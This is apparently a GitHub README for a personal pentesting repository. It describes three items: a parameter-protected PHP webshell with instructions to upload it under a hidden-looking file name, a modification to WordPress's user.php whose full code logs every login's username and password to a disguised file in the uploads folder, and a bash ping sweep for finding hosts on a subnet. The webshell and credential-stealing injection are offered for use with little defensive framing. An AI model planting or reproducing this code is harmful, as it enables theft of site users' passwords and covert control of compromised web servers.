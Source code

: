 # JustRepository

Testing project

## Getting Started

These are some repository tools and code I made for pentesting. I want to say "use this for educational purposes only" but I know it wont change your evil thoughts.

### Webshell.php

simple webshell that protected with parameter.
Upload shell. rename it with ".page.backup.php". 
Call it with your own parameter:
```
example.com/uploads/.page.backup.php?dxnboy=4343
```
Modified from:

* **Flozz** - *PHP shell* - [P0wny Shell](https://github.com/flozz/p0wny-shell)

### Inject Wordpress

Inject user.php in wordpress to record credentials that login. Required user priviledge that can write to wordpress directory. 
edit file wordpress/wp-include/user.php.

before
```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
} else {
                $credentials['remember'] = false;
}
```

after inject
```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
                $credz = date('Y-m-d') . "Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.php.swp', base64_encode($credz).PHP_EOL, FILE_APPEND);
} else {
                $credentials['remember'] = false;
                $credz = date('Y-m-d') . "Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.php.swp', base64_encode($credz).PHP_EOL, FILE_APPEND);
}
```

Encoded with base64. call it in: and decode it with base64
```
wordpress/wp-content/uploads/.page.txt
```

### ping.sh

Simpe ping with bash. or you can use this simple script through command line with this:
```
time for i in {1..254}; do (ping -c 1 172.19.0.$i | grep "bytes from" | cut -d':' -f1 | cut -d' ' -f4 &); done
```
